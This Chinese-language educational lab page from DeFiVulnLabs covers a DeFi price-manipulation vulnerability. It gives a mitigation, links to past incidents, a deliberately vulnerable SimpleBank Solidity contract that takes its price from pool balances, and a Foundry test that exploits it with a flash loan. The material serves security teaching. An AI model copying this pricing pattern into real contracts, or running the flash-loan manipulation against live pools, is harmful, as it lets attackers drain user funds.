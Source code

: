 [Price_manipulation.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Price_manipulation.sol)

# 价格操纵

**名称：** 价格操纵

**描述：**balanceOf价格计算错误，getReverse可能指向一个未经精准计算的toke或资产价格。

**减轻：**

使用抗操纵预言机、chainlink、TWAP 等。

**参考：**

https://twitter.com/1nf0s3cpt/status/1673948842738487296

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20221012-atk---flashloan-manipulate-price

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220807-egd-finance---flashloans--price-manipulation

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220428-deus-dao---flashloan--price-oracle-manipulation

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    IERC20 public token; //USDA
    SimplePool public pool;
    IERC20 public payoutToken; //USDb

    constructor(address _token, address _pool, address _payoutToken) {
        token = IERC20(_token);
        pool = SimplePool(_pool);
        payoutToken = IERC20(_payoutToken);
    }

    function exchange(uint256 amount) public {
        require(
            token.transferFrom(msg.sender, address(this), amount),
            "Transfer failed"
        );
        uint256 price = pool.getPrice();
        require(price > 0, "Price cannot be zero");
        uint256 tokensToReceive = (amount * price) / (10 ** 18);
        require(
            payoutToken.transfer(msg.sender, tokensToReceive),
            "Payout transfer failed"
        );
    }
```

***\*测试方法:\****

forge test--contracts src/test/**Price_manipulation.sol** -vvvv

```jsx
// 测试潜在价格操纵漏洞的函数
    function testPrice_Manipulation() public {
        // 将 9000 以太币（这里使用以太币作为面额，但实际上指的是 USDb 代币的最小单位）从 USDbContract 转移到 SimpleBankContract
        USDbContract.transfer(address(SimpleBankContract), 9000 ether);
        
        // 将价值 1000 以太币的 USDa 代币从 USDaContract 转移到 SimplePoolContract
        USDaContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // 将价值 1000 以太币的 USDb 代币从 USDbContract 转移到 SimplePoolContract
        USDbContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // 从 SimplePoolContract 中检索以 USDb 表示的 USDa 的当前价格
         // 最初，假设价格为 1 USDa : 1 USDb
        SimplePoolContract.getPrice(); // 1 USDa : 1 USDb

        // 记录 USDa 价格为 1 比 1 USDb 的假设，因为池中各有 1000 个
        console.log(
            "There are 1000 USDa and USDb in the pool, so the price of USDa is 1 to 1 USDb."
        );
        
        // 发出当前 USDa 汇率的日志
        emit log_named_decimal_uint(
            "Current USDa convert rate",
            SimplePoolContract.getPrice(),
            18
        );
        
        // 记录价格操纵尝试的开始
        console.log("Start price manipulation");
        
        // 记录有关通过闪贷借入 500 美元的消息
        console.log("Borrow 500 USBa over floashloan");
        
        // 尝试通过快速贷款借入 500 USDb 来操纵价格
         // 这可能会扭曲 SimplePoolContract 中 USDa 和 USDb 的平衡，从而影响价格
        SimplePoolContract.flashLoan(500 ether, address(this), "0x0");
    }
```

**红色框：价格被操纵。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6e72f9da-a310-4e12-a4df-724cfe5a4cd0%2FUntitled.png?table=block&id=4982af62-42fa-4aef-ac03-b62eb5514bc9&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)